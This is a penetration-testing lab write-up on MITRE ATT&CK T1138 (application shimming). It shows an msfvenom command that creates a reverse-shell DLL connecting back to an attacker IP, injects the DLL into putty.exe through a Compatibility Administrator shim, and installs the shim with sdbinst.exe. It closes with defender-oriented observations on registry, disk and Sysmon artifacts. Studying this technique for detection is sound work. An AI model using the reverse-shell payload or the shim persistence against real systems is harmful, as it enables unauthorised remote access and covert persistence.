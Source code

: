 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../../.gitbook/assets/shim-new-fix.png)

![](../../.gitbook/assets/shim-injectdll.png)

![](../../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../../.gitbook/assets/shim-connection.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

